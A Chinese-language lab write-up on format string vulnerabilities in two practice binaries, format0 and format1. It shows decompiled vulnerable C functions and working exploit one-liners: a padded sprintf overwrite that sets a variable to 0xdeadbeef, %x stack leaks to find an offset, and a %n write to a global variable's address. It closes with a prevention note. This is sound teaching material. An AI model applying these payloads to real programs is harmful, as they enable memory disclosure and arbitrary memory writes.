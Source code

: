 # <center>格式化字符串实验1</center>

## 实验概述

### 【目的】
1. 运行format0，得到输出`you have hit the target correctly :)`，要求输入的参数不超过十个字节。
2. 运行format1，得到输出`you have modified the target :)`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】

#### format0
```
$ binwalk format0

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
```
int __cdecl vuln(char *format)
{
  int result; // eax@1
  char s; // [sp+Ch] [bp-4Ch]@1
  int v3; // [sp+4Ch] [bp-Ch]@1

  v3 = 0;
  sprintf(&s, format);
  result = v3;
  if ( v3 == 0xDEADBEEF )
    result = puts("you have hit the target correctly :)");
  return result;
}
```
分析`vuln()`函数可以发现，s字符数组和变量v3相邻，可以通过sprintf()来溢出控制v3的值。
另外一个要求是不超过十个字符，这里可以使用格式化字符的占位符来输入64
```
$ python -c 'print "%64d\xef\xbe\xad\xde"' | xargs ./format0
you have hit the target correctly :)

```

#### foramt1

```
$ binwalk format1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
```
int __cdecl vuln(char *format)
{
  int result; // eax@1

  printf(format);
  result = target;
  if ( target )
    result = puts("you have modified the target :)");
  return result;
}
```
双击target变量，发现是存在bss段的全局变量。
```
.bss:0804A024 target          dd ?                    ; DATA XREF: vuln+14r
.bss:0804A024 _bss            ends
.bss:0804A024
```
target 变量的地址也可以使用objdump求得
```
$ objdump -t format1 | grep target
0804a024 g     O .bss	00000004              target
23
```
注意到`printf()`直接把format作为参数，意味着这里存在一个格式化字符串漏洞。
首先要求得format的偏移量。
```
$ ./format1 AAAA`python -c 'print ".".join(["%d:%%x" % i for i in range(1,200)])'`
AAAA1:f7fb6000.2:f7fb4244.3:f7e1e0ec.4:2.5:0.6:ffffca58.7:804848f.8:ffffcd07.9:ffffcb04.10:ffffcb10.11:80484c1.12:f7fb63dc.13:ffffca70.14:0.15:f7e1e637.16:f7fb6000.17:f7fb6000.18:0.19:f7e1e637.20:2.21:ffffcb04.22:ffffcb10.23:0.24:0.25:0.26:f7fb6000.27:f7ffdc04.28:f7ffd000.29:0.30:f7fb6000.31:f7fb6000.32:0.33:49b7bdb.34:38c475cb.35:0.36:0.37:0.38:2.39:8048340.40:0.41:f7feeff0.42:f7fe9880.43:f7ffd000.44:2.45:8048340.46:0.47:8048361.48:804846b.49:2.50:ffffcb04.51:80484a0.52:8048500.53:f7fe9880.54:ffffcafc.55:f7ffd918.56:2.57:ffffccfd.58:ffffcd07.59:0.60:ffffd210.61:ffffd21b.62:ffffd230.63:ffffd247.64:ffffd259.65:ffffd28c.66:ffffd2a4.67:ffffd2bb.68:ffffd2ca.69:ffffd2fe.70:ffffd312.71:ffffd323.72:ffffd33a.73:ffffd34a.74:ffffd36d.75:ffffd37f.76:ffffd396.77:ffffd3da.78:ffffd3f1.79:ffffd41e.80:ffffd42b.81:ffffd9b3.82:ffffd9c6.83:ffffd9df.84:ffffda19.85:ffffda4d.86:ffffda76.87:ffffdac8.88:ffffdafb.89:ffffdb3f.90:ffffdb56.91:ffffdbe9.92:ffffdbfb.93:ffffdc1c.94:ffffdc3a.95:ffffdc4f.96:ffffdc69.97:ffffdc72.98:ffffdc86.99:ffffdc99.100:ffffdcaa.101:ffffdcb9.102:ffffdcef.103:ffffdd0a.104:ffffdd27.105:ffffdd39.106:ffffdd4a.107:ffffdd5c.108:ffffdd76.109:ffffdd95.110:ffffdd9d.111:ffffddb0.112:ffffddbf.113:ffffddd1.114:ffffddfd.115:ffffde18.116:ffffde28.117:ffffde64.118:ffffdeca.119:ffffdedd.120:ffffdefd.121:ffffdf07.122:ffffdf26.123:ffffdf31.124:ffffdf4b.125:ffffdf5e.126:ffffdf80.127:ffffdf94.128:ffffdfa8.129:ffffdfcd.130:ffffdfd9.131:0.132:20.133:f7fd8dc0.134:21.135:f7fd8000.136:10.137:f8bfbff.138:6.139:1000.140:11.141:64.142:3.143:8048034.144:4.145:20.146:5.147:9.148:7.149:f7fda000.150:8.151:0.152:9.153:8048340.154:b.155:3e8.156:c.157:3e8.158:d.159:3e8.160:e.161:3e8.162:17.163:0.164:19.165:ffffccdb.166:1a.167:0.168:1f.169:ffffdfee.170:f.171:ffffcceb.172:0.173:0.174:e0000000.175:cd2f73a2.176:fd127d87.177:68381562.178:69d375ee.179:363836.180:0.181:0.182:0.183:662f2e00.184:616d726f.185:41003174.186:31414141.187:2e78253a.188:78253a32.189:253a332e.190:3a342e78.191:352e7825.192:2e78253a.193:78253a36.194:253a372e.195:3a382e78.196:392e7825.197:2e78253a.198:253a3031.199:31312e78
```
%x表示按十六进制输出。
可以发现在185偏移附近有重复出现的0x41，我们挨个进行试探。
```
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%186$x."'`
ABCDXXXX36383125.
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%185$x."'`
ABCDXXXX58585858.
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%184$x."'`
ABCDXXXX44434241.
```
在偏移等于184时，刚好输出0x44434241，即'ABCD'。
这里引入另外一个格式化符号%n，%n与其他格式说明符号不同。%n不向printf传递格式化信息，而是令printf把自己到该点已打出的字符总数放到相应变元指向的整形变量中。
通常来说，%n是这样使用的。
```
      strlen('abcd----')
          |           |
          |           |
printf("abcd-----%n",&len)

(len = strlen('abcd----'))
```
在这道题中，184偏移位置的值等于我们输入数据的前4位，那么我们置前四位为target变量的地址，并在184偏移处使用%n格式化，就会令target变量得到一个非零的赋值。
```
$ ./format1 `python -c 'print "\x24\xa0\x04\x08" + "X" * 4 + "%184$n."'`
$�XXXX.you have modified the target :)

```
### 【总结】
本次实验主要熟悉了格式化字符串的溢出，通过%x泄露内存数据，通过%n来进行任意地址写的漏洞。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。